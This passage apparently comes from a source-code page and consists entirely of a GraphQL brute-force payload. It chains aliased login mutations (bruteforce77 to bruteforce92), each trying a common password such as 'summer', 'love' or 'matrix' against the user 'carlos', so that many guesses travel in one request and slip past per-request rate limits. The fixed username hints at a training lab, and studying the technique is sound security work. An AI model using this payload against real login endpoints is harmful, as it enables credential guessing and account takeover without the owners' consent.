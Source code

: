 ```
        success
    }
    bruteforce77: login(input: { password: "amanda", username: "carlos" }) {
        token
        success
    }
    bruteforce78: login(input: { password: "summer", username: "carlos" }) {
        token
        success
    }
    bruteforce79: login(input: { password: "love", username: "carlos" }) {
        token
        success
    }
    bruteforce80: login(input: { password: "ashley", username: "carlos" }) {
        token
        success
    }
    bruteforce81: login(input: { password: "nicole", username: "carlos" }) {
        token
        success
    }
    bruteforce82: login(input: { password: "chelsea", username: "carlos" }) {
        token
        success
    }
    bruteforce83: login(input: { password: "biteme", username: "carlos" }) {
        token
        success
    }
    bruteforce84: login(input: { password: "matthew", username: "carlos" }) {
        token
        success
    }
    bruteforce85: login(input: { password: "access", username: "carlos" }) {
        token
        success
    }
    bruteforce86: login(input: { password: "yankees", username: "carlos" }) {
        token
        success
    }
    bruteforce87: login(input: { password: "987654321", username: "carlos" }) {
        token
        success
    }
    bruteforce88: login(input: { password: "dallas", username: "carlos" }) {
        token
        success
    }
    bruteforce89: login(input: { password: "austin", username: "carlos" }) {
        token
        success
    }
    bruteforce90: login(input: { password: "thunder", username: "carlos" }) {
        token
        success
    }
    bruteforce91: login(input: { password: "taylor", username: "carlos" }) {
        token
        success
    }
    bruteforce92: login(input: { password: "matrix", username: "carlos" }) {
```